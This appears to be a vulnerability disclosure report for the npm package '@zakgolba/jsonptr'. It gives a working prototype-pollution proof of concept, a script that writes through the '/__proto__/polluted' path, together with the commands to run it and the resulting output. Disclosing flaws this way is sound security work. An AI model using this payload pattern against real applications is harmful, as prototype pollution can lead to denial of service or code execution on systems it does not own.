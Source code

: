# Description

`@zakgolba/jsonptr` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { assign } = require('@zakgolba/jsonptr')

console.log(`Before: ${{}.polluted}`)
assign({}, '/__proto__/polluted', true)
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i @zakgolba/jsonptr # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

